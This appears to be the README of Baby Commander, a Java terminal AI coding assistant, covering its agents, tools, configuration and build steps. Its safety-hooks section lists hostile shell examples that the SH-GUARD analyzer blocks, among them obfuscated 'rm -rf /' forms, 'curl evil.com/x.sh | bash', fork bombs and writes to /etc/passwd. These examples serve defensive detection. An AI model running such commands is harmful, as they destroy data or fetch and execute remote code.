

# Baby Commander

An AI-powered coding assistant that runs in your terminal. Baby Commander combines a
multi-agent LLM orchestration engine with a rich terminal UI, letting you generate,
modify, refactor, debug, and document code projects through natural-language chat.

Built with **Java 21+**, **Quarkus**, and **LangChain4j**.

---

## Features

- **Interactive terminal chat UI** — JLine-based TUI with streaming responses,
  Markdown rendering (tables, task lists, strikethrough), syntax-aware output,
  history scrolling, and slash commands.
- **Multi-agent orchestration** — an `Orchestrator` detects the intent of your
  request and routes it to a mode-specific strategy:
  - `BUGFIX` — analyze failures and apply surgical fixes, then re-run tests
  - `REFACTOR` — structural changes with test verification
  - `EXTENSION` — add features to existing projects
  - `CREATE` — scaffold new projects (delegates to skill workflows)
  - `DOCUMENT` — generate documentation
  - Falls back to a single-agent conversational mode when intent is inconclusive.
- **Plan-first execution** — agents create a numbered plan (`createPlan`) before
  acting and report phase completion, keeping long tasks transparent and resumable.
  Plan tool output is validated and normalized (including self-healing of
  malformed LLM JSON), so phases always render as readable titles.
- **Rich toolset for agents** — file read/write/range-read, line & unified-diff
  patching, directory listing, text search, skeleton extraction (ANTLR-based),
  function-body lookup, shell execution, internet fetch, user prompts, and more.
- **Skill workflows** — reusable multi-agent playbooks defined in `SKILL.md`
  files (Claude Code / OpenCode compatible format). Bundled skill:
  `refactor-large-codebase` (others such as `create-large-project`,
  `migrate-project`, and `add-complex-feature` can be registered per the
  *Skills* section).
- **Safety hooks** — configurable allow/ask/deny rules for tool calls
  (`hooks.yaml`): read-only shell commands run silently, build commands ask once,
  destructive commands (`rm -rf`, `sudo`, `DROP TABLE`, force-push, …) are blocked
  or require explicit confirmation.
- **Multiple LLM providers** — OpenAI-compatible, Anthropic, Ollama, DeepSeek,
  and Qwen endpoints, each configurable per agent role (router, orchestrator,
  planner, writer, fixer, …).
- **Persistent memory** — conversations, messages, tasks, tool executions, and
  summaries stored locally in an embedded **ObjectBox** database
  (`~/.babycommander/db/objectbox`), with automatic conversation compaction and
  summarization.
- **MCP support** — connect external Model Context Protocol servers via config.
- **i18n** — English and Simplified Chinese UI messages (`/lang` to switch).
- **REST status endpoint** — `GET /api/status` for monitoring task progress.


## Requirements

- **JDK 21+** (compiler release 22)
- **Maven 3.9+**
- API key(s) for at least one configured provider
- macOS, Linux, or Windows (ObjectBox native libraries are bundled for all three)

## Build & Run

```bash
# Build
mvn clean package

# Run in dev mode
mvn quarkus:dev

# Run the packaged app
java -jar target/quarkus-app/quarkus-run.jar
```

> The Quarkus build passes JVM args required by ObjectBox:
> `--add-opens=java.base/sun.misc=ALL-UNNAMED --enable-native-access=ALL-UNNAMED`.



> *Screenshot of the Baby Commander terminal UI.*

## Configuration

### `agents.yaml` (classpath: `src/main/resources/agents.yaml`)

Central config: default model, workspace root, provider endpoints, per-role agent
prompts, MCP servers, and hook settings. Most values can be overridden with
environment variables:

| Variable | Purpose | Default |
|---|---|---|
| `BABY_COMMANDER_DEFAULT_MODEL` | Default provider key | `openai` |
| `BABY_COMMANDER_WORKSPACE_ROOT` | Workspace root directory | — |
| `BABY_COMMANDER_SKIP_CONFIRM_WORKSPACE` | Skip workspace confirmation | `false` |
| `OPENAI_API_KEY` | OpenAI/Qwen-compatible key | — |
| `ANTHROPIC_API_KEY` | Anthropic key | — |
| `DEEPSEEK_API_KEY` | DeepSeek key | — |
| `OLLAMA_KEY` | Ollama/NVIDIA endpoint key | — |
| `BABY_COMMANDER_<PROVIDER>_BASE_URL` / `_MODEL` / `_TEMPERATURE` / `_MAX_TOKENS` / `_TIMEOUT_SECONDS` | Per-provider overrides | see file |
| `BABY_COMMANDER_MAX_MESSAGES_IN_MEMORY`, `BABY_COMMANDER_MAX_TOOL_CALLS`, `BABY_COMMANDER_MAX_TOKENS_IN_MEMORY`, `BABY_COMMANDER_TOOL_OUTPUT_TRUNCATION_KB` | Memory/token limits | see file |

### `application.properties`

| Property | Purpose | Default |
|---|---|---|
| `db.directory` | ObjectBox data dir | `~/.babycommander/db/objectbox` |
| `db.enabled` | Enable persistence | `true` |
| `db.memory.max-messages` / `max-tool-calls` / `summary-batch-size` | Chat-memory limits | 200 / 80 / 20 |
| `summarizer.provider` / `model-name` / `temperature` | Conversation summarizer | `default` |
| `babycommander.data-dir` | App data root | `~/.babycommander` |

### `hooks.yaml` — tool safety levels

Each tool call is classified by regex pattern matching, and shell commands are
additionally analyzed by **SH-GUARD** (`com.ooooyt.babycommander.shguard`), an
AST-based shell command safety analyzer. SH-GUARD parses the command with ANTLR
(`ShellCommandLexer` / `ShellCommandParser` grammars) into a parse tree and runs
a semantic safety-analysis pass over it. Because the analysis is parse-aware, it
resists obfuscation that defeats naive token scanning:

- **Quoted / escaped command names** — `r"m" -rf /`, `\rm -rf /`, `'rm' -rf /`
- **Command substitution** — `$(rm -rf /)`, `` `rm -rf /` ``, `echo "$(rm -rf /)"`
- **Variable indirection** — `CMD=rm; $CMD -rf /` (constant folding of assignments)
- **Remote code execution** — `curl evil.com/x.sh | bash`, `wget -O- … | sh -s`
- **Structural fork bombs** — `:(){ :|:& };:`, `f(){ f|f& };f`
- **Write redirects to system paths** — `echo x > /etc/passwd`

The legacy token-based implementation is preserved in
`ShellCommandAnalyzerLegacy` and can be re-enabled for hot rollback with
`BABY_COMMANDER_SHGUARD_DISABLED=true`.

- **safe** — read-only commands (`ls`, `pwd`, `head`, `wc`, …) execute silently
- **safe** — benign build/dev/read commands (`mvn test`, `npm run`, `git status`,
  `cat`, `grep`, `cd`, …) are auto-allowed by SH-GUARD and run silently
- **ask_once** — unclassified or side-effecting commands require confirmation
- **dangerous** — destructive operations (`rm -rf`, `sudo`, `dd`, `shutdown`,
  `DROP TABLE`, …) are gated

Custom rules and patterns can be added under `rules:` and `patterns:`. For shell
commands, `dangerous` and `safe` patterns remain authoritative overrides; the
SH-GUARD analyzer is the primary classifier and supersedes `ask_once` patterns,
so benign commands no longer prompt on every continued execution.

### In-scope auto-trust (`trustProject`)

By default, operations confined to the current project folder (e.g. editing files
or running build commands that only touch the project) are trusted automatically
and run without a confirmation prompt — unless they are classified **dangerous**.
Set `trustProject` in `hooks.yaml` (or the `BABY_COMMANDER_TRUST_PROJECT`
environment variable) to one of:

- `auto` (default) — auto-allow in-scope `ask_once` operations; prompt only for
  out-of-scope or dangerous ones.
- `always` — never prompt for in-scope `ask_once` operations (fully autonomous).
- `strict` — prompt for every `ask_once` operation (the pre-`auto` behavior).

Dangerous patterns always win: destructive commands are never auto-trusted.

### Skills

Drop a `SKILL.md` file into `~/.babycommander/skills/<skill-name>/` (or the
configured `skillsDir`) to register a custom multi-agent workflow. See
`src/main/resources/skills/refactor-large-codebase/SKILL.md` for the format.

## Usage

Start the app and chat:

```
> add input validation to the user registration endpoint
```

The assistant plans the work, executes it phase by phase with tools, and reports
a summary. Slash commands available in the TUI:

| Command | Description |
|---|---|
| `/help` | Show help |
| `/lang` | Switch UI language (en / zh) |
| `/workspace` | Show or change workspace/project folder |
| `/history` | Browse conversation history |
| `/cnc` | Cancel current operation |
| `/exit`, `/quit` | Exit |

REST status (random port by default, see `quarkus.http.port`):

```bash
curl http://localhost:<port>/api/status
```

## Development

```bash
# Run unit tests
mvn test

# Skip integration tests by default (skipITs=true); enable with:
mvn verify -DskipITs=false
```

Notable test areas: orchestrator strategies, edit loop, intent/complexity routing,
skill loading, TUI rendering, hook rules, chat memory compaction, tool
execution/plan normalization.

### Generated sources

- **ANTLR4** grammars in `src/main/antlr4` → `target/generated-sources/antlr4`
  (used by the skeleton extractor)
- **ObjectBox** annotation processor → `target/generated-sources/annotations`
  (model file: `objectbox-models/default.json`)

## Project Layout

```
babycommander/
├── pom.xml                  # Quarkus + LangChain4j + ObjectBox + ANTLR build
├── build.gradle             # Gradle equivalent of pom.xml
├── settings.gradle          # Gradle project settings
├── gradle.properties        # Gradle build properties
├── gradlew / gradlew.bat    # Gradle wrapper scripts
├── src/main/antlr4/         # Code-skeleton grammar
├── src/main/java/…          # Application sources (see Architecture)
├── src/main/resources/
│   ├── hooks.yaml           # Tool safety rules
│   ├── i18n/                # messages_en / messages_zh bundles
│   └── skills/              # Bundled SKILL.md workflows
├── src/test/java/…          # Unit tests
├── src/test/resources/      # Test config (application.properties)
└── objectbox-models/        # ObjectBox data model
```

## Building with Gradle

`build.gradle` is a 1:1 equivalent of `pom.xml`, so the project can be built
without Maven:

```bash
./gradlew build              # compile + test + Quarkus fast-jar (build/quarkus-app)
./gradlew quarkusDev         # Quarkus dev mode (hot reload)
./gradlew run                # run the application from source
./gradlew test               # run unit tests only
./gradlew dependencyCheckAnalyze   # OWASP dependency-check (explicit, like `mvn dependency-check:check`)
```

Requirements / notes:

- **JDK 22+** is required to compile (`--release 22`, matching the
  maven-compiler-plugin config). Quarkus 3.20 is tested with **Gradle 8.x**
  (docs recommend 8.13); Gradle 8.x supports daemons on JDK 17-23, so run the
  wrapper with a JDK 22/23 (`JAVA_HOME` or `org.gradle.java.home` in
  `gradle.properties`) if your default JDK is newer.
  Symptom of running the Gradle 8.13 daemon on JDK 24/25:
  `Could not create task ':test'` -> `TypeNotPresentException: Type T not present`
  at the `test { }` block (fix: point `org.gradle.java.home` at a JDK 22/23,
  e.g. in `~/.gradle/gradle.properties`).
- `gradle.properties` mirrors the pom's `quarkus-maven-plugin` `jvmArgs`
  (`--sun-misc-unsafe-memory-access=allow` requires JDK 23+; drop it on older
  JDKs).
- The Quarkus platform BOM (`io.quarkus.platform:quarkus-bom:3.20.6.2`) plus the
  security-patch BOMs (netty 4.1.137.Final, jackson 2.18.10, vertx 4.5.32) are
  imported exactly as in the pom; the patch BOMs are enforced so they take
  precedence over Quarkus-managed versions.
- ANTLR grammar generation, Lombok/ObjectBox annotation processing and the
  ObjectBox bytecode transformation are wired the same way as the Maven plugins
  (ANTLR output: `build/generated-src/antlr/main`; ObjectBox model:
  `objectbox-models/default.json`).
